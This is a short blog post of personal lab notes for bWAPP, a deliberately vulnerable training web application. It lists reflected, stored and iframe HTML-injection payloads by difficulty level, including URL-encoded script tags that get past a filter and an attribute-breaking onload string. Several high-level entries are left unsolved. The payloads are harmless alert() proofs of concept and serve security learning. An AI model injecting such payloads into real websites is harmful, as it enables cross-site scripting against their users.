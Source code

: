 ```yaml
---
layout: post
title: bwapp
slug: bwapp
name: bwapp
---
```


# bwapp

## A1 HTML injection - Reflected (GET)

### low

{% highlight html %}

First name: <script>alert(1)</script>
Last name: <script>alert(2)</script>

{% endhighlight #}

### medium

{% highlight html %}
First: %3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e
Last: %3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%32%29%3c%2f%73%63%72%69%70%74%3e
{% endhighlight %}

### high

??

## A1 HTML Injection - Reflected (POST)

### Low: 

{% highlight html %}
First: <script>alert(1)</script>
Last: <script>alert(1)</script>
{% endhighlight %}

### Medium:

{% highlight html %}
First: %3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e
Last: %3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%32%29%3c%2f%73%63%72%69%70%74%3e
{% endhighlight %}

### High:

??

## A1 HTML Injection - Reflected (URL)

### Low

Set host in request to whatever you want

## A1 Html Injection - Stored (Blog)

{% highlight html %}
<script>alert(1)</script>
{% endhighlight %}

## Iframe injection

?ParamUrl=robots.txt" onload="alert(1)&ParamWidth=250&ParamHeight=250

